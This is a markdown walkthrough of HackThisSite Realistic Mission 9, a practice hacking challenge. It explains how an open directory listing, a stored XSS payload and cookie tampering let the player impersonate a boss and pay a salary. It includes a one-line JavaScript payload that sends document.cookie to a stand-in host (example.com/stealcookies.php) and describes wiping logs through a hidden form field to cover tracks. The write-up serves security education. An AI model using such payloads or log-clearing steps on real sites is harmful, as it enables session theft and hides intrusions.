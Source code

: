 # Mission 9
https://www.hackthissite.org/playlevel/9/

- [Overview](#overview)
- [Solution](#solution)
  * [Details From the Site Layout](#details-from-the-site-layout)
  * [Paying Our Friend's Salary](#paying-our-friend-s-salary)
    + [Stealing Your Boss' Cookies](#stealing-your-boss--cookies)
  * [Clearing the Logs](#clearing-the-logs)
- [Key Concepts](#key-concepts)
- [Key Ideas](#key-ideas)

## Overview
The boss over at CrappySoft has stopped paying his employees, and your friend is in need of money, fast. Help them get their salary paid.

Message: Hey man,
I've heard you're good at hacking, and on the right side of things. So I came looking for you. I really need help, you see, my boss has stopped paying our salaries and I'm going to miss my rent! Please help me get my money, you can reach the site at Crappy Soft. They have an online payment system, but only he can use it. Maybe you can get into his account somehow, but for now you can use mine:

Username: r-conner@crappysoft.com
Password: ilovemywork

Thanks man, good luck.

## Solution
### Details From the Site Layout
Before focusing on paying the salary let's take stock of the site itself. Take a look at the pages we can access without needing to log in. Contact leads to a generic form to send a message to the company, nothing fancy there. But the Mailing List and Demo pages drop an important clue. On the Mailing List page, it's the form which has this line: `<input type="hidden" name="strFilename" value="./files/mailinglist/addresses.txt">`. On the Demo page, the download link has this line: `<a href="./files/downloads/CrappyDemo.exe.zip"><font color="BLACK"><b>HERE!</b></font></a>`.

Try accessing https://www.hackthissite.org/playlevel/9/files/ and boom, directory listing is on. Click through the folders and you'll notice a log file at ./files/logs/logs.txt. It seems to record login data. Thinking back to our steps in [Realistic Mission 8](https://github.com/jasonally/hack_this_site_missions/blob/master/realistic/mission_08.md), we'll probably need to clear logs in this mission as well once we pay our friend.

We've learned an important insight, but for now, let's focus on paying our friend's salary.

### Paying Our Friend's Salary
Log into our friend's account from the CrappySoft homepage using the account credentials he provided. Once we're logged in, you'll notice a cookie gets saved to our browser with the following information:
* intID, currently equal to 2
* strPassword, which seems to be the MD5 hash of our friend's password
* strUsername, which is set to r-conner%40crappysoft.com (note the URL encoding for the @ sign)

There's also now a link on the lefthand side of the page labeled Pay Salaries. Click it right now and you'll get a message saying: You are not an administrator.

I spent a while looking into [privilege escalation](https://portswigger.net/web-security/access-control), my thinking being that maybe there was some way to give our friend's account administrator privileges and then be able to pay his salary. That approach didn't really pan out, but it turns out I was on the right track.

#### Stealing Your Boss' Cookies
It turns out there's more than you might initially think to the site's Private Message functionality. The functionality is actually vulnerable to a [Cross-Site Scripting](https://en.wikipedia.org/wiki/Cross-site_scripting) (XSS) attack, meaning we can inject JavaScript into a page and execute it in another user's browser. In this case, we can use XSS to steal the boss' login cookie.

Compose a message to m-crap (owner), add a subject, add the following message body, and click Send:
`javascript:void(window.location='http://example.com/stealcookies.php?'+document.cookie)`

It's beyond the scope of this mission to actually execute an XSS attack, so we've got to simulate it and think through it to the best of our ability. When the boss opens your message, his browser will execute this code (because the web application doesn't properly filter out rogue JavaScript) and it will redirect his browser to http://example.com/stealcookies.php?[boss_login_cookie]. In this simulation the idea would be that you control the site in question – which in this case is example.com – and stealcookies.php is a script which would save your boss' cookie for you to retrieve later. The script might just save the data to a database, it might email it to you, or something along those lines.

Once you send the message you'll see some more text appear on the page saying something like this:\
It's beyond the scope of this mission to check the XSS. So, assume you got this cookie:\
strUsername=m-crap%40crappysoft.com; strPassword=94a35a3b7befff5eb2a8415af04aa16c; intID=1;

Again, it's beyond the scope of this mission for us to actually execute a XSS attack, so we just got the cookie information provided to us. We could have probably guessed the boss would have intID=1, but we wouldn't have known his password (either the plain text version or the hashed version). But now we've got it all. Update your cookie to reflect the indID, strPassword, and strUsername values we've now obtained and we're now effectively logged in as the boss. Click the Pay Salaries link and click the Pay button next to your friend's email address to pay him.

### Clearing the Logs
Once we've paid our friend we'll see a message telling us to clean the logs by subscribing to them. This goes back to what we saw earlier, before logging in. We need to clear the site logs to help cover our tracks.

Luckily, our initial investigation makes it much easier for us to figure out how to accomplish these steps. If we go to the Mailing List page, there's this message:
(Note: This adds your email to the list, and at the same time, checks the list for anything without the '@' character and deletes it.)

We identified previously that the logs file we're trying to clear is located at ./files/logs/logs.txt. So, change the value of the hidden input type to that file path, click Subscribe, and you're done. This functionality will clear the log file and we've completed the mission.

## Key Concepts
Cookie tampering\
Cookie stealing\
Cross-site scripting (XSS)

## Key Ideas
It shouldn't be so easy for someone to tamper with a cookie, and that was what really allowed us to complete the mission. Modern practices call for things like authentication cookies which the backend validates to make sure a user isn't editing a cookie's values in their browser.

But this mission also gave us an example of XSS, which continues to be a major web security issue. Any time someone can inject rogue JavaScript onto a page which can then be executed in the browser of another user, that's a big problem. There's no shortage of malicious things an attacker can do using an XSS bug, but stealing cookies is a common one. That's why companies often allocate major resources -- including paying cash rewards -- to people who identify and report XSS vulnerabilities.